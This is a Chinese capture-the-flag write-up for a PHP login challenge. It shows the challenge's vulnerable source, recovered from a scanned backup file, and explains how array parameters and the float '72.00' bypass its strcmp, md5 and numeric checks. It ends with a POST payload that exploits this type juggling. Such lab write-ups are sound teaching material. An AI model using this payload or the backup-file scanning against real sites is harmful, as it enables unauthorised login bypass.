


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.扫描网站可以看到一个`challenge18.php~`文件，获得php主要逻辑代码：

```php
<?php
    if(isset($_POST['login']))
     {
        if(isset($_POST['user']))
        {
            if(@strcmp($_POST['user'],$USER))//USER是被隐藏的复杂用户名
            {
                die('user错误！');
            }
        }
        if (isset($_POST['name']) && isset($_POST['password']))
        {
            if ($_POST['name'] == $_POST['password'] )
            {
                die('账号密码不能一致！');
            }
            if (md5($_POST['name']) === md5($_POST['password']))
            {
                if(is_numeric($_POST['id'])&&$_POST['id']!=='72' && !preg_match('/\s/', $_POST['id']))
                {
                        if($_POST['id']==72)
                            die("flag{xxxxxxxxxxxxx}");
                        else
                            die("ID错误2！");
                }
                else
                {
                    die("ID错误1！");
                }
            }
            else
                die('账号密码错误！');
        }
     }
 ?>
```

3.这里有3个需要绕过的地方， `if(@strcmp($_POST['user'],$USER))//USER是被隐藏的复杂用户 `
这里需要用数组弱类型绕过 用户名密码MD5的相等，如果`==`可以考虑科学计数法，这里是`===`，也是数组绕过， 最后一点id，不能为数字72，又不能等于字符串`’72’`，不包含空白符，这里也是弱类型，floor类型`72.00`

4.构造payload：

`POST: user[]=dsa&name[]=1&password[]=2&id=72.00&login=Check`

5.获取flag：



